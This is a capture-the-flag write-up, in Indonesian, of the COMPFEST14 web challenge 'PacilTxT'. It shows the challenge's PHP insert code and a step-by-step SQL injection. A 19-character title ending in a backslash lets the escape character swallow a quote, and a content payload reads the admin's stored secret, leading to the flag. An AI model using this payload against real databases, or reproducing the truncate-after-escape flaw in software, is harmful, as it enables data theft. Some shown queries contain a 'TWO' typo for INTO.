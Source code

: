 # PacilTxT

> Write-up author: jon-brandy (SOLVED)

## DESKRIPSI:
Admin wrote his secret on this website. Can you read it?
`http://103.185.38.238:16729/`

Reference https://portswigger.net/support/sql-injection-in-different-statement-types

[FILE](https://github.com/jon-brandy/COMPFEST14-BAY-WU/blob/f8cf827bbb9adae041931e58fe93acd859885363/Asset/Web%20Exploitation/PacilTxT/submit.php)

## LANGKAH-LANGKAH:
1. Pertama, unduh file `.php` yang diberikan, lalu lihat isinya.

> SUBMIT.PHP

```php

<?php
require_once('koneksi.php');
require_once('utils.php');

if (!isset($_POST['title']) || !isset($_POST['content'])) {
    die('Method not allowed');
} 

$txtCode = gen_random_string(6);
$saveTitle = $db_connect->real_escape_string($_POST['title']);
$txtTitle = substr($saveTitle,0,20);
$txtContent = $db_connect->real_escape_string($_POST['content']);

$query = "INSERT INTO paciltxt_post(code, title, content) VALUES ('".$txtCode."', '".$txtTitle."', '".$txtContent."')";
$sql = $db_connect->query($query);
if ($db_connect->error) {
    header('Location: /');
}

header('Location: /view.php?code='.$txtCode);

```

2. Setelah diperhatikan, value dari variabel `$query` dapat kita manfaatkan kerentanannya.

![image](https://user-images.githubusercontent.com/70703371/185785104-cfb109bd-0371-432a-a37e-0bba025ba460.png)

3. Pada variable `$txtCode` value berisikan 6 strings random.

![image](https://user-images.githubusercontent.com/70703371/185785149-c31772e7-7359-4e90-8e50-919883524344.png)

4. Lalu pada variable `$txtTitle` diketahui value berisikan input strings pada textarea title dengan total 20 karakter maksimal.

![image](https://user-images.githubusercontent.com/70703371/185785198-73cddadb-2e9a-48d5-af1e-348be74284ad.png)

5. Terakhir pada variable `$txtContent` diketahui value berisikan input strings pada textarea content yang pastinya telah diescape setelah diinput atau memiliki escape character di akhir strings.

![image](https://user-images.githubusercontent.com/70703371/185785260-96da96bd-ea75-403b-8290-e9e1ab64ccbb.png)

> PADA TITLE JUGA TERDAPAT ESCAPE STRING

![image](https://user-images.githubusercontent.com/70703371/185785280-f98fed9b-e16f-4aa5-bb5f-cf95c9e85020.png)

> PADA CONTENT

![image](https://user-images.githubusercontent.com/70703371/185785287-4df12559-4bd2-4695-9872-9d361d7329e7.png)

6. Vuln yang dapat dimanfaatkan yaitu dengan melakukan input karakter sebanyak 19 saja karena nantinya `\` yang merupakan karakter dari escape string akan masuk menjadi karakter ke **20**.
7. Sehingga tutup petik yang sesungguhnya akan ter-*escape*.

![image](https://user-images.githubusercontent.com/70703371/185785421-c0036fa2-1b60-4fc6-b3f6-948660e5e947.png)

8. Pada tahap ini kurang lebih query akan menjadi seperti ini:

> NOTES : input isi title dengan -> AAAAAAAAAAAAAAAAAAA\', 

```sql
INSERT TWO paciltxt_post(code, title, content) VALUES ('randStrings' 'AAAAAAAAAAAAAAAAAAA\',  ...
```

9. Lalu pada content, karena kita sudah memiliki kontrol pada value content, saatnya mengubah sintaksnya. Namun perlu diingat untuk menambahkan separator `,` dan menambahkan comment pada **petik tutup** yang tidak diperlukan.
10. Selanjutnya, untuk mengambil value dari paciltxt_post, harus menggunakan aliasing. Hal ini dikarenakan simbol paciltxt_post sudah digunakan sebagai target dari query *INSERT*.
11. Berikut adalah querynya:

> VALUE UNTUK CONTENT

```sql
, (SELECT content FROM paciltxt_post as vuln LIMIT 1))-- ')
```

12. Pada tahap ini query secara lengkap akan tampak seperti berikut:

```sql
INSERT TWO paciltxt_post(code, title, content) VALUES ('randStrings' 'AAAAAAAAAAAAAAAAAAA\', ', (SELECT content FROM paciltxt_post as vuln LIMIT 1))-- ')
```

13. Kesimpulannya pada title inputkan -> `AAAAAAAAAAAAAAAAAAA\` dan pada content inputkan -> `, (SELECT content FROM paciltxt_post as vuln LIMIT 1))-- ')`. Lalu tekan button *post*.

![image](https://user-images.githubusercontent.com/70703371/185786148-e4b3dfb6-8945-477c-9dd4-ddb26ec73ce9.png)

15. Flag pun didapat!

![image](https://user-images.githubusercontent.com/70703371/185786089-3e9a7f4f-1bf2-4e3b-8978-6a4c742d86ac.png)



## FLAG

```
COMPFEST14{k3teLiti4n_4daLAh_kUnTjh1_faabc736c3}
```

## REFERENCES:

```
https://www.w3schools.com/sql/sql_select.asp
https://portswigger.net/support/sql-injection-in-different-statement-types
```
